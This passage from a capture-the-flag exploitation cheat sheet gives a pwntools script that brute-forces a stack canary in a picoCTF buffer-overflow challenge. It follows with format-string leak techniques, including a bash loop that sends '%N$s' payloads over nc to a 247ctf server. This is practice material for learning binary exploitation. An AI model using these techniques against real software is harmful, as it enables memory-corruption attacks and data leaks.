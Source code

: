- Simple script to bruteforce a static 4 byte canary:

```python
#!/bin/python3
from pwn import *

#This program is the buffer_overflow_3 in picoCTF 2018
elf = ELF('./vuln')

# Note that it's probably better to use the chr() function too to get special characters and other symbols and letters.
# But this canary was pretty simple :)
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

canary = ''
# Here we are bruteforcing a canary 4 bytes long
for i in range(1,5):
	for letter in range(0,len(alphabet)):  # We will go through each letter/number in the string 'alphabet'
		p = elf.process()  # We start the process
		wait = p.recv().decode('utf-8')
		p.sendline(str(32+i))  # In this program, we had to specify how many bytes we were gonna send.
		wait = p.recv().decode('utf-8')
		p.sendline('A'*32 + canary + alphabet[letter])  # We send the 32 A's to overflow, and then the canary we already have + our guess
		prompt = p.recv().decode('utf-8')
		if "Stack" not in prompt:  # The program prints "Stack smashed [...]" if we get wrongfully write the canary.
			canary += alphabet[letter]  # If it doesn't print that, we got part of our canary :)
			break  # Move on to the next canary letter/number

print("The canary is: " + canary)
```

#### Format String Vulnerabilities

- Look at Table 2 for what to try if you see "printf(buf)" or something like that:
    - [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)
- Highly recommend looking at John Hammond doing 'echooo' challenge from picoCTF 2018
- Sometimes, trying to print only strings from the stack like this: '%s %s %s %s %s %s' may cause errors since not everything in the stack is a string.
- Try to minimize that by doing '%x %x %x %x %x %s' instead
- Instead of having to constantly increase how many %x and %s you type, you can pass a parameter to make it easier:
    - `%1$s` | This will print the first value in the stack (from what I understand, the one right next to your buffer) as a string.
    - `%2$s` | This will print the 2nd value as a string, and you get the idea
    - You can use one-liner loops to try to find the flag by leaking the stack. Press ^C (CTRL + C) to go to the next value.
        - `for i in {1..100}; do echo "%$i\$s" | nc [b7dca240cf1fbf61.247ctf.com](http://b7dca240cf1fbf61.247ctf.com/) 50478; done`
- You can control how much you leak using different size parameters:
	- `%hhx` leaks 1 byte (half of half of int size)
	- `%hx` leaks 2 bytes (half of int size)
	- `%x` leaks 4 bytes (int size)
	- `%lx` leaks 8 bytes (long size)
- very good video on modifying the stack with fstring vuln and %n:
    - [https://www.youtube.com/watch?v=gzLPVkZbaPA&ab_channel=MartinCarlisle](https://www.youtube.com/watch?v=gzLPVkZbaPA&ab_channel=MartinCarlisle)
    